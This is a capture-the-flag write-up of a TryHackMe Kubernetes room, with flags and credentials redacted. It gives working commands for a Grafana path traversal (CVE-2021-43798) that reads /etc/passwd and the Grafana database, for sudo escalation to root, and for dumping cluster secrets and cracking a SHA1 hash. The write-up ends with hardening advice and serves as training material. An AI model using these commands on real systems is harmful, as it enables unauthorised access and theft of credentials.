# Kubernetes for Everyone: From a Grafana File Read to Cluster-Admin


[Kubernetes for Everyone](https://tryhackme.com/room/kubernetesforyouly) is a Kubernetes hacking room aimed at DevOps and SRE enthusiasts. The target is a single host running k0s, a single-binary Kubernetes distribution, with a couple of web apps bolted on. The four tasks walk the natural attacker path: get a foothold, find a Kubernetes secret, dig through pod storage and recover one last secret someone left behind.

Used techniques: Nmap service enumeration, Grafana path traversal (CVE-2021-43798), directory brute-forcing, sudo privilege escalation, Kubernetes enumeration with kubectl, containerd snapshot inspection, git history recovery, hash cracking.

OWASP Kubernetes Top Ten (2025): [K07 Misconfigured and Vulnerable Cluster Components](https://owasp.org/www-project-kubernetes-top-ten/), [K03 Secrets Management Failures](https://owasp.org/www-project-kubernetes-top-ten/), [K02 Overly Permissive Authorization Configurations](https://owasp.org/www-project-kubernetes-top-ten/).

OWASP Top 10:2025: [A01 Broken Access Control](https://top10.owasp.org/2025/A01_2025-Broken_Access_Control/) (Grafana path traversal), [A07 Authentication Failures](https://top10.owasp.org/2025/A07_2025-Authentication_Failures/) (credentials left in accessible locations).

Flags and credentials are redacted.

---

## Part 1: Foothold

> To access a cluster, you need to know the location of the K8s cluster and have credentials to access it. Compromise the cluster and best of luck. Use Nmap to find open ports and gain a foothold by exploiting a vulnerable service.

### Scanning

I started with a SYN scan across all ports. 
`-sS` needs root but is quick, since it never completes the TCP handshake.
`-T4` speeds things up without the accuracy loss of `-T5` (fine against a lab target).
`-p-` covers all 65535 ports, because the default scan only hits the top 1000 and Kubernetes lives on high ports.

```
# nmap -sS -p- -T4 10.112.151.254
PORT     STATE SERVICE
22/tcp   open  ssh
111/tcp  open  rpcbind
3000/tcp open  ppp
5000/tcp open  upnp
6443/tcp open  sun-sr-https
```

Then version and script detection on just the open ports. Running it as a second pass over five ports is far faster than `-sV -sC -p-`:

```
# nmap -sV -sC -p 22,111,3000,5000,6443 10.112.151.254
22/tcp   open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
111/tcp  open  rpcbind  2-4 (RPC #100000)
3000/tcp open  http     (Grafana, redirects to /login)
5000/tcp open  http     Werkzeug httpd 2.0.2 (Python 3.8.12)
|_http-title: Etch a Sketch
6443/tcp open  ssl/http kube-apiserver (401 Unauthorized)
| ssl-cert: Subject: commonName=kubernetes
|_Subject Alternative Name: DNS:kubernetes.default.svc.cluster.local, ...
```

Triage, port by port:

- 22 / SSH: no exploit here, but I'll need credentials to use it later.
- 111 / rpcbind: the real question is never "is rpcbind open", it's "what has registered with it". `rpcinfo` showed only program `100000`, which is rpcbind advertising itself - a dead end on this box.
- 5000 / Flask: a Werkzeug dev server serving an "Etch a Sketch" app. Noted.
- 6443 / kube-apiserver: confirms a real cluster, but it answers every request with 401. No anonymous access.
- 3000 / Grafana: the interesting one.

### Grafana on 3000: CVE-2021-43798

Version first:

```
# curl -s http://10.112.151.254:3000/api/health
  "version": "8.3.0"
```

Grafana 8.3.0 is vulnerable to CVE-2021-43798, an unauthenticated path traversal in the plugin asset route (affects 8.0.0-beta1 through 8.3.0). The request walks out of a default plugin's directory, so it needs no credentials, just a plugin that ships by default. The structure is `/public/plugins/<plugin-id>/<traversal>`. `--path-as-is` matters, otherwise curl collapses the `../` sequences before sending them.

Confirming the traversal against `/etc/passwd`:

```
# curl -s --path-as-is "http://10.112.151.254:3000/public/plugins/alertlist/../../../../../../../../etc/passwd"
root:x:0:0:root:/root:/bin/ash
...
grafana:x:472:0:[REDACTED]:/home/grafana:/sbin/nologin
```

The read works and the `grafana` line is a gift: the comment field (GECOS, normally a user's full name) holds the account password. So I had a password. I did not yet have a username, and `grafana`, `admin` and `root` were all rejected.

```
root@ip-10-112-113-22:~# curl -s --path-as-is "http://10.112.151.254:3000/public/plugins/alertlist/../../../../../../../../etc/shadow"
{
  "message": "Could not open plugin file"
}
root@ip-10-112-113-22:~# curl -s --path-as-is "http://10.112.151.254:3000/public/plugins/alertlist/../../../../../../../../home/grafana/.bash_history"
{
  "message": "Plugin file not found"
}
```

The error messages are worth reading carefully, because the two responses mean different things:

- "Could not open plugin file": the file exists, Grafana cannot read it (permissions).
- "Plugin file not found": the file is not there.

`/etc/shadow` returned the first, so Grafana runs unprivileged and cannot read root-owned files. No password hashes for me.

With the traversal confirmed, I went after Grafana's own secrets, the natural targets for this CVE. The config was a stock sample with nothing real in it. 

```
# curl -s --path-as-is "http://10.112.151.254:3000/public/plugins/alertlist/../../../../../../../../etc/grafana/grafana.ini" > grafana.ini
```

Around it, I probed the paths this CVE usually pays off on, and the misses were informative:

- `/proc/self/cgroup` and `/proc/self/environ` returned "seeker can't seek". Grafana's file handler seeks within the file, and `/proc` pseudo-files aren't seekable, so this traversal can't read `/proc` at all. No environment-variable secrets, no container fingerprinting that way.
- `/var/run/secrets/kubernetes.io/serviceaccount/token` returned "Plugin file not found". If Grafana were a pod, that token would be mounted. Its absence means Grafana runs as a plain container on the host, not inside the cluster, so it won't leak a ServiceAccount token to me. Good to know early in a Kubernetes room.
- Standard log and provisioning paths (`grafana.log`, `provisioning/datasources`, `provisioning/dashboards`) weren't present on this install.

I pulled the SQLite database, which holds the Grafana application accounts. It is binary, so I saved it with `-o` rather than printing it:

```
# curl -s --path-as-is "http://10.112.151.254:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db" -o grafana.db
```

Opening the database, the `user` table had exactly one account:









 Unfortunately `admin` was not the accepted username either. The provisioning files (`datasources`, `dashboards`) weren't present. 

At this point I'd over-invested in Grafana: a password in hand, still no username, nowhere left to read. Time to regroup and look at the thing I'd skipped.

### Back to Etch a Sketch on 5000



Early on I'd glanced at this app, checked that drawing on the grid sent no requests, skimmed the HTML and JavaScript, and moved on to the shinier Grafana target. That was the mistake. I brute-forced directories to be thorough:

```
# gobuster dir -u "http://10.112.151.254:5000" -w directory-list-2.3-medium.txt -x .php,.js,.css
/console              (Status: 200) [Size: 1909]
```

The `/console` hit is the Werkzeug debugger, interesting on its own, but the real find was that I'd only read the HTML and JS earlier and ignored the CSS. Inside the stylesheet sat a commented out Pastebin URL. 





The paste was encoded, so I dropped it into CyberChef's "Magic" mode, which detected the scheme and decoded it:



That gave me the missing username. Which, I then realised, is the default user baked into every box a certain provisioning tool spits out. An hour of enumeration to land on "did you try the stock account?"

Lesson logged: don't drop a lead because a more exciting one is sitting next to it.

---

## Part 2: Find the Secret

> If you want to keep a secret, you must also hide it from yourself. Find the secret!

Username from the Pastebin paste, password from Grafana, and SSH was open. In I went:



`.bash_history` was empty and `.bashrc` was stock, so I checked my groups and sudo rights:

```
[REDACTED]@johnny:~$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),27(sudo),998(docker),...

[REDACTED]@johnny:~$ sudo -l
User [REDACTED] may run the following commands on johnny:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

Two paths to root, one is a shortcut. `docker` group membership alone is a known privilege escalation (anyone who can run `docker` can mount the host filesystem into a container), but `sudo` with `NOPASSWD: ALL` is even more direct. One command later I was root:



Now the secret. First I found the cluster's admin kubeconfig. The `find` also told me this is k0s, not kubeadm:

```
root@johnny:~# find / -name "*.conf" -path "*kube*" 2>/dev/null
/var/lib/k0s/kubelet.conf
/var/lib/k0s/kubelet-bootstrap.conf
...

root@johnny:~# cat /var/lib/k0s/pki/admin.conf
apiVersion: v1
clusters:
- cluster:
    server: https://localhost:6443
    certificate-authority-data: [REDACTED]
contexts:
- context: {cluster: local, namespace: default, user: user}
  name: Default
users:
- name: user
  user:
    client-certificate-data: [REDACTED]
    client-key-data: [REDACTED]
```

That file is cluster-admin access to the whole cluster, sitting in plain sight on the node. Not the answer TryHackMe wanted from me though. 

k0s bundles kubectl under `k0s kubectl`:

```
root@johnny:~# k0s kubectl get secrets -A
NAMESPACE   NAME                 TYPE                                  DATA   AGE
kube-system ...-token-...        kubernetes.io/service-account-token  3      4y
...
default     k8s.authentication   Opaque                               1      4y
```

Dozens of secrets, and nearly all of them are the automatic `service-account-token` type that every ServiceAccount gets. One stands out: `k8s.authentication`, type `Opaque`, in the `default` namespace. Opaque is the type for user-created secrets, so this is the one someone put there on purpose.



Kubernetes Secrets are only base64-encoded, not encrypted, so reading it is a `kubectl get -o yaml` and a `base64 -d`. Flag two.

Here I fell down a rabbit hole of articles and heated Reddit threads about Kubernetes secret security. One camp swears by putting a real vault in front of it, another says tight RBAC with least privilege is enough.

These aren't competing answers to the same question, each defends a different layer. Encryption at rest protects etcd, so a stolen disk or a backup is ciphertext rather than a pile of plaintext. RBAC governs who can pull secrets through the API, so a compromised low-privilege pod can't list the whole cluster. An external store adds rotation, short-lived credentials and an audit trail, and keeps the plaintext out of etcd entirely.

None of that is pointless, but none of it hides the secret from me here, and that's the actual lesson. At runtime the value has to exist decrypted somewhere: in memory, an environment variable, a mounted file. All of those sit inside the node's trust boundary, and with root on the node I'm inside it too. These controls shrink the blast radius for other attackers. They don't protect against the one who already owns the node. Keeping an attacker off the node in the first place is the control that would have mattered.

---

## Part 3: Pod-Shared Storage

> Pods are the smallest deployable computing units you can create and manage in Kubernetes. The Pod also shares storage. Enumerate the pod-shared storage location and find the flag!

The task points at volumes. The pod list had an obvious lure, `internship-job` (cue the "intern took down prod" jokes), but I'll come back to that in Part 4:

```
root@johnny:~# k0s kubectl get pods -A
NAMESPACE    NAME                              READY   STATUS      AGE
internship   internship-job-5drbm              0/1     Completed   4y
kube-system  kube-api                          1/1     Running     4y
kube-system  coredns-...                       1/1     Running     4y
...
```

I described the pods and checked for persistent volumes, but every pod only had the automatic projected ServiceAccount token, and there were no PVs or PVCs:

```
root@johnny:~# k0s kubectl get pv,pvc -A
No resources found
```

After some head scratching and a coffee break, one pod name was off: `kube-api`, not the `kube-apiserver` you'd expect. Describing it gave the tell:

```
root@johnny:~# k0s kubectl describe pod kube-api -n kube-system
    Image:    csaju/jokes:latest
    Command:  /bin/bash -c
    Args:     while true; do sleep 30; done;
```

A pod named to blend into `kube-system`, running a random image (`csaju/jokes`) that just sleeps forever. That's not a cluster component, that's a plant. I wanted its filesystem.

Interactive `exec` failed, because that streams through the kubelet on port 10250, which wasn't reachable:

```
root@johnny:~# k0s kubectl exec -it kube-api -n kube-system -- /bin/bash
Error from server: error dialing backend: dial tcp 10.0.2.15:10250: i/o timeout
```

Trying to run the image from the host's Docker was a dead end too, and the reason is the whole point of this task:

```
root@johnny:~# docker image ls
REPOSITORY    TAG      IMAGE ID       SIZE
csaju/ctf     latest   3936140d50bb   66.3MB
csaju/angur   latest   08b01934dbb9   275MB
```

Docker can see `csaju/ctf` and `csaju/angur` but not `csaju/jokes`. That's because the k0s pod runs under containerd, a completely separate image and container store from the host's Docker daemon, and the box has no outbound internet to pull the image. So the jokes image isn't in Docker at all. It's in containerd's on-disk snapshots, which I can read directly as root:

```
root@johnny:~# grep -rIi "joke" /var/lib/k0s/containerd/io.containerd.snapshotter.v1.overlayfs 2>/dev/null
.../snapshots/38/fs/home/ubuntu/jokes/crush.jokes:Do I really need to tell you a joke?
.../snapshots/38/fs/home/ubuntu/jokes/.git/config:  url = https://github.com/Aju100/jokes
```

The container's filesystem is just sitting there in snapshot 38. The `jokes` directory held a joke file per category and, more usefully, a `.git` repo:

```
root@johnny:/var/lib/k0s/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/38/fs/home/ubuntu/jokes# ls -a
.git  crush.jokes  dad.jokes  mom.jokes  programming.jokes
root@johnny:/var/lib/k0s/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/38/fs/home/ubuntu/jokes# cat programming.jokes
(...)
Don’t worry if it doesn’t work right. If everything did, you’d be out of a job. (Mosher’s Law of Software Engineering)
```

The working tree had no secret, but the git log did. One commit adds `cold.joke`, a file that isn't in the working directory:

```
.../jokes# git log --oneline
224b741 feat: add programming.jokes
22cd540 feat: add crush.jokes
4b2c2d7 feat: add cold.joke      <-- not in the current tree
2be2045 feat: add mom.jokes
cc34246 feat: add dad.jokes
```

A file committed and later removed is still in history. Checking out or showing that commit recovers it:



Flag three, hiding in a deleted joke.

---

## Part 4: The Secret Left Behind

> You have been shortlisted and you have upcoming interview rounds for a FANG company! Find the secret that has been left behind.

Back to the `internship-job` pod I'd parked earlier. It's a completed Job and I was certain the room wouldn't leave an "internship" resource lying around without putting something in it. The pod logs route through the kubelet (10250 again, unreachable), but a Job's full definition lives in the API, and `describe` reads it from there:

```
root@johnny:~# k0s kubectl describe job internship-job -n internship
  Containers:
   internship-job:
    Image:    busybox
    Command:
      echo
      [REDACTED]
```

The Job's entire purpose was to `echo` a value and exit. No volume, no logs needed: the secret is baked into the Job spec itself, readable by anyone who can describe the Job. 

I first used Hashes.com to identify the hash as SHA1. 
Then I saved a hash to a file which John the Ripper takes as an argument. 

```
# echo '[REDACTED]' > hash.txt
```

Next step was to crack the hash using a popular wordlist, `rockyou.txt`, which holds millions of plaintext passwords. 



Flag four, and the room is done.

---

## Attack chain

```
Nmap -> Grafana 8.3.0 path traversal (CVE-2021-43798) leaks the SSH password
     -> username hidden in the Flask app's CSS (Pastebin + CyberChef) -> SSH in
     -> sudo NOPASSWD = root -> k0s admin kubeconfig = cluster-admin
     -> Opaque Secret k8s.authentication                        [flag 2]
     -> planted "jokes" pod, read from containerd snapshots
        -> deleted file recovered from git history               [flag 3]
     -> internship Job spec echoes a SHA1, cracked offline       [flag 4]
```

## Lessons learned

- A read primitive is a foothold. CVE-2021-43798 only reads files, no code execution, but a password dropped in a GECOS field turned a file read into an SSH login. 
- Read every file type, not just the obvious ones. I skipped the CSS because I'd already read the HTML and JS, and the username sat in the CSS for an hour. Thoroughness beats intuition about where the interesting stuff "should" be.
- Error messages leak state. Grafana's "could not open" versus "not found" told me the process was unprivileged before I wasted time on root-owned files.
- Node root meant game over for the cluster: the admin kubeconfig sat in plaintext on the host, readable by root, and cluster-admin reads every secret there is. Encryption at rest and RBAC guard the etcd and API layers, but a node compromise is below both, so the real lesson is keep attackers off the node and don't leave a cluster-admin credential lying on it.
- Git never forgets, and neither do Job specs. A deleted file lives in history, and a value baked into a Kubernetes object is readable by anyone who can describe it. Don't put secrets in either.

## Hardening notes

- Patch Grafana. 8.3.1 fixes the traversal. Don't expose it to untrusted networks and run it behind auth.
- Never store credentials in a passwd comment field, a CSS comment, or a Pastebin link.
- Remove `NOPASSWD: ALL` and unnecessary `docker` group membership. Either is root.
- Protect the admin kubeconfig (`/var/lib/k0s/pki/admin.conf`) with strict file permissions. Enable encryption at rest so an etcd snapshot or stolen disk is ciphertext, but remember it won't stop root on the node: keeping attackers off the node is the control that covers this case.
- Keep secrets out of image layers, git history, and object specs. Use a real secrets store and mount at runtime.
